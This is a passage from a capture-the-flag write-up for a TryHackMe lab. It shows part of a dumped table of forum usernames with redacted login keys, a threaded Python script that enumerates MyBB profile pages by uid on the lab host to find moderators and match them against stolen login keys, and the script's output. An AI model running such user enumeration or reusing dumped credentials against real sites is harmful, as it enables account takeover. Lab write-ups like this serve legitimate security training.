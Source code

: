 ```shell
| StaceyLacer    | QD{Redacted}                                        |
| ArnoldBagger   | Oo{Redacted}                                        |
| Carl_Dee       | 3m{Redacted}                                        |
| Xavier         | ZB{Redacted}                                        |
+----------------+-----------------------------------------------------+
```

```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup

class Enumerater:
    def __init__(self, url):
        self.__url = url

    def sendRequest(self, uid):
        requestResult = requests.get(f'{self.__url}{uid}')
        soup = BeautifulSoup(requestResult.text, 'html.parser')

        if 'Moderator' in soup.get_text():
            username = soup.title.string[23:]
            print(f'[+] Found moderator: {username}')

            # login_key.txt is found in MySQL modManagerv2 database
            with open('login_key.txt', 'r') as file:
                for line in file:
                    if username in line:
                        print(f'[++] Moderator {username} has login_key! Uid: {uid}')

        elif 'The member you specified is either invalid or doesn\'t exist.' in soup.get_text():
            exit()

def main():
    url = 'http://exit-denied.thm/member.php?action=profile&uid='
    enumerater = Enumerater(url)

    for uid in range(1, 100):
        thread = Thread(target=enumerater.sendRequest, args=(uid,))
        thread.start()

        # You can adjust how fast of each thread. 0.02 is recommended.
        sleep(0.02)

if __name__ == "__main__":
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.26|14:52:15(HKT)]
└> python3 enum_moderator.py
[+] Found moderator: BlackCat
[++] Moderator BlackCat has login_key! Uid: 7
[+] Found moderator: Jackwon
[+] Found moderator: PalacerKing
[++] Moderator PalacerKing has login_key! Uid: 10
[+] Found moderator: ArnoldBagger
[++] Moderator ArnoldBagger has login_key! Uid: 11
[+] Found moderator: DotHaxer
[+] Found moderator: DrBert
[+] Found moderator: BlueMan
```